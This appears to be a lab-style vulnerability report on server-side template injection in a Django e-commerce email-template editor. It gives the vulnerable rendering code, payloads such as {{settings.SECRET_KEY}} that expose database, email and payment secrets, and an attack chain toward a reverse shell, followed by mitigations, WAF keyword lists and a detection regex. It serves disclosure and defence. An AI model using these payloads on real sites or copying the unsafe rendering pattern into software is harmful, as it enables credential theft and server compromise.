


# Server-Side Template Injection (SSTI) Vulnerability Report

## Vulnerability Overview

**Application:** Django E-commerce
**Vulnerable Endpoint:** `http://10.110.2.100:8007/product/email-template/editor/`
**Severity:** Critical
**Discovery Date:** 2025-12-18

---

## 1. How the Vulnerability is Present in the Application

The Server-Side Template Injection (SSTI) vulnerability exists in the email template editor feature of the Django e-commerce application running on port 8007. The application allows users to create marketing email templates but fails to properly sanitize template syntax, allowing attackers to inject and execute arbitrary template code.

### Vulnerable Code Pattern

The vulnerability comes from unsafe template rendering where user-controlled input is directly processed by Django's template engine without proper sandboxing:

```python
# Vulnerable Django code example
from django.template import Template, Context

def preview_email_template(request):
    template_content = request.POST.get('email_content', '')

    # directly rendering input as template
    template = Template(template_content)
    context = Context({
        'product': selected_product,
        'settings': settings,  # this will expose django settings
    })

    rendered = template.render(context)
    return JsonResponse({'preview': rendered})
```

Or using `render_to_string` unsafely:

```python
from django.template.loader import render_to_string

rendered = render_to_string('custom_template.html', {
    'user_input': user_template,  
    'settings': settings,
})
```

### Exploitation Evidence

The vulnerability was confirmed through template expression evaluation:

#### 1. Basic Template Expression Test
**Payload:** `{{7*7}}`
**Response:** Error - "Could not parse the remainder: '*7' from '7*7'"



This indicates template syntax is being parsed but multiplication is restricted in this context.

#### 2. Django Settings Exposure
**Payload:** Template containing:
```django
{{settings.EMAIL_HOST_USER}}
{{settings.EMAIL_HOST_PASSWORD}}
{{settings.SOCIAL_AUTH_FACEBOOK_SECRET}}
{{settings.RAZORPAY_SECRET_KEY}}
```

**Result:** Successfully rendered and exposed sensitive configuration values



The attack successfully retrieved:
- Email server credentials (`test@example.com`, `dummy_email_password`)
- Social media API secrets (`dummy_facebook_secret_key`)
- Payment gateway secrets (`RAZORPAY_SECRET_KEY`)
- Other sensitive settings variables

---

## 2. Associated CWEs

- **CWE-1336: Improper Neutralization of Special Elements Used in a Template Engine**
  Primary classification for template injection vulnerabilities

- **CWE-94: Improper Control of Generation of Code ('Code Injection')**
  Template injection leads to code execution

- **CWE-20: Improper Input Validation**
  Root cause - failure to validate template syntax

- **CWE-200: Exposure of Sensitive Information to an Unauthorized Actor**
  Sensitive settings exposed through template rendering

---

## 3. Impact of the Vulnerability

### Confidentiality Impact: CRITICAL
- **Sensitive Data Exposure:**
  - Database credentials (if in settings)
  - API keys and secrets (payment gateways, social auth, etc.)
  - Email server credentials
  - Secret keys and encryption keys
  - Internal application configuration
  - Environment variables
  - File system paths

### Integrity Impact: CRITICAL
- **Code Execution:** Attackers can:
  - Execute arbitrary Python code

### Availability Impact: HIGH
- **Service Disruption:** Potential for:
  - Resource exhaustion through infinite loops
  - Application crashes

### Business Impact
- **Complete System Compromise:** SSTI can lead to Remote Code Execution (RCE)
- **Data Breach:** Exposure of all sensitive configuration data
- **Financial Loss:** Stolen API keys leading to unauthorized charges
- **Reputational Damage:** Severe loss of customer trust

---

## 4. Exploit Proof of Concept

### Step 1: Identify Template Injection Point
```
URL: http://10.110.2.100:8007/product/email-template/editor/
Method: POST
Parameter: email_content (or template field)
```

### Step 2: Confirm Template Processing
```
Payload: {{7*7}}
Expected (if vulnerable): 49
Actual: Error message indicating template parsing

Alternative test:
Payload: {{7+7}}
Expected: 14
```

### Step 3: Identify Template Engine
```
# Django detection
Payload: {{settings}}
Result: Settings object exposed (Django confirmed)

```

### Step 4: Extract Configuration Data
```
# Extract Django SECRET_KEY
Payload: {{settings.SECRET_KEY}}
Result: Exposes application secret key

# Extract database credentials
Payload: {{settings.DATABASES}}
Result: Database connection strings, passwords

# Extract all settings
Payload: {{settings.DEBUG}}
{{settings.ALLOWED_HOSTS}}
{{settings.DATABASE_PASSWORD}}
{{settings.EMAIL_HOST_USER}}
{{settings.EMAIL_HOST_PASSWORD}}
{{settings.RAZORPAY_SECRET_KEY}}
```

### Real-World Attack Scenario
```
1. Attacker creates email template with SSTI payload
2. Extracts Django SECRET_KEY via {{settings.SECRET_KEY}}
3. Uses SECRET_KEY to forge session cookies (admin access)
4. Executes commands to create reverse shell
5. Gains full server access
6. Pivots to database and other systems
7. Exfiltrates customer data, payment information
```

---

## 5. Recommended Mitigation Strategies

### WITH Code Changes 

#### A. Use Safe Template Rendering (Primary Fix)
```python
from django.template import Template, Context
from django.template.backends.django import DjangoTemplates
from django.conf import settings

def preview_email_template(request):
    template_content = request.POST.get('email_content', '')

    safe_context = {
        'product_name': selected_product.name,
        'product_price': selected_product.price,
        'customer_name': 'Valued Customer',
        # Dom't include settings 
    }

    # use template with restricted context
    try:
        template = Template(template_content)
        context = Context(safe_context)
        rendered = template.render(context)
    except Exception as e:
        return JsonResponse({
            'error': 'Invalid template syntax',
            'preview': ''
        }, status=400)

    return JsonResponse({'preview': rendered})
```

#### B. Implement Template Sanitization
```python
import re
from django.core.exceptions import ValidationError

def validate_template_content(template_str):

    # Blacklist dangerous patterns
    dangerous_patterns = [
        r'\{\{\s*settings' # access to settings for example
    ]

    for pattern in dangerous_patterns:
        if re.search(pattern, template_str, re.IGNORECASE):
            raise ValidationError(f"Forbidden template syntax detected")

    # Whitelist allowed tags
    allowed_tags = ['if', 'for', 'endif', 'endfor', 'else']
    # ... rest of code

def preview_email_template(request):
    template_content = request.POST.get('email_content', '')

    try:
        # validate before rendering
        validate_template_content(template_content)

        template = Template(template_content)
        # ... rest of rendering

```

### Without Code Changes

When immediate code changes aren't possible, these security measures can reduce SSTI risk:

#### 1. Web Application Firewall (WAF)
Deploy a WAF like ModSecurity with rules to detect and block SSTI patterns. Configure it to block requests containing template syntax like `{{`, `{%`, or dangerous keywords like `settings`, `__class__`, `__mro__`, `__subclasses__`, `__globals__`, and `__import__`. The WAF can inspect POST data before it reaches the application.

#### 2. Application Monitoring
Set up logging and monitoring to detect suspicious template rendering activity. Monitor for templates containing `settings`, class introspection methods, or unusual template syntax. Alert administrators when these patterns are detected.

#### 3. Least Privilege Principle
Run the Django application as a non-privileged user with minimal file system permissions. Restrict write access to application directories. This limits what an attacker can do even if they achieve code execution through SSTI.

#### 4. Environment Variable Protection
Store sensitive configuration in environment variables instead of Django settings.py. While SSTI can still potentially access these, it adds another layer of difficulty and can be monitored more easily.


---

## 6. References and Tools Used

### Tools
1. **Web Browser (Firefox)** - Used for manual testing of template payloads. Browser developer tools helped inspect requests and preview responses.


The vulnerability was straightforward to find through manual testing, so automated tools like SSTImap weren't necessary.

### References

1. **PortSwigger SSTI Guide**
   https://portswigger.net/web-security/server-side-template-injection


---

## 7. Supporting Materials

### Screenshots


---